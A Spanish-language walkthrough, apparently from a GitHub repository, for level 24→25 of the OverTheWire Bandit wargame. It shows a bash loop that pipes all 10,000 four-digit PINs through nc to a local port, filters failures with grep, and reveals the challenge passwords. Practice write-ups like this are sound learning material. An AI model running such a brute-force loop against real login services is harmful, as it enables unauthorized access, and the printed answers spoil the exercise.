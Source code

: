 ## Level 24 → Level 25

### Problema

### Solición

```bash
bandit24@bandit:~$  nc localhost 30002 
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:~$
```

### Notas

Entramos puerto 30002 dónde nos pasaran la contraseña pero para esto ocupamos realizar un script para que cuando entremos al puerto le mande la contraseña del bandit anterior y un numero de autenticacion ejmplo:

VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0001
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0002

…
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9998
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9999

Esto para que el escucha nos pueda entregar la contraseña

El comando grep -v hace que no aparezaca todas las respuesta por parte del escucha donde tenga la palabra Wrong

### CTF

p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d